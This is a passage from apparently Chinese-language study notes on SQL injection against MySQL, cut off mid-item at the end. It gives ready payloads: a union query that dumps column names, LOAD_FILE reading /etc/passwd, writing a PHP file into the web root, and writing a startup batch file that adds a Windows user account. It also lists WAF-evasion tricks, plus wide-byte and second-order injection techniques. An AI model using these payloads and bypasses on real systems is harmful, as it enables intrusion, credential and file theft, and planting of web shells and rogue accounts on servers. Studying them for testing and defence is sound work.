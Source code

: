    - 爆列名 payload：

   ```mysql
   union select 1, column_name, 3 from information_schema.columns where table_name='admin' limit 0,1%23
   ```

2. 文件读写

   - 读取关键文件

   ```mysql
   select LOADFILE('/etc/passwd');
   ```

   - 写入shell：

   ```mysql
   select '<?php phpinfo();?>' into dumpfile '/var/www/html/1.php'
   ```

   - mysql5.7之后，引入了secure-file-priv新特性来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()

3. 命令执行

   - 利用数据库对服务器写启动脚本：

   ```mysql
   union select 1,2,3,"net user cimer cimer /ad" into outfile 'C:/documents and settings/all users/start menu/programs/startup/add.bat'
   ```

### WAF绕过

- WAF：Web Application Firewall，web应用防护系统。

1. 双写关键字 &rarr; 针对WAF是用简单的非迭代的将select、or语句替换为空字符串。比如：`SEselectLECT` &rarr;replace&rarr; `SELECT`

2. 大小写绕过：应用简单的区分大小写的关键字匹配，比如php中的preg_match函数没有加/i参数

3. 编码绕过：ASCII、16进制、unicode编码、URL编码（开发程序员不知道url会自动解码一次，自己再写了url解码函数，我们可以将URL编码两次）

4. more trick：

   - `and` &rarr; `&&` ； `or` &rarr; `||` ；` select username from admin` &rarr; `select(username)from(admin)`、`select\**\username\**\from\**\admin` （%a0、%0a、%0d、%09、tab...）。

   - 科学记数法绕过：`where username=1e1union select`

   - `>`, `=`, `<` 被限制：`where pass in (1,2)`、`where id between 1 and 3`、`like`

   - mysql对%00不会截断：`se%00lect`

   - PS：SQL测试语法（测试字符 `'1'` 与字符 `a` 的大小）：

     ```mysql
     select '1' > 'a'
     ```

### 其他注入方式

1. 二次注入：攻击者将恶意SQL语句插入到数据库中，程序直接带入查询
2. 宽字节注入：当数据库中使用了宽字符集（如GBK），会将一些两个字符当作一个字符。
   - 比如：`0xbf27`、`0xbf5c`
   - 反斜杠是`0x5c`，使用addslashes()等转义函数在处理输入时会将"`、\、`"这些字符用反斜杠转义，输入`0xbf27`，转义后变成了`0xbf5c27`。
3. sprintf &rarr; 执行语句使用sprintf和vsprintf进行拼接，且进行了两次拼接，第一次拼接的参数可控：
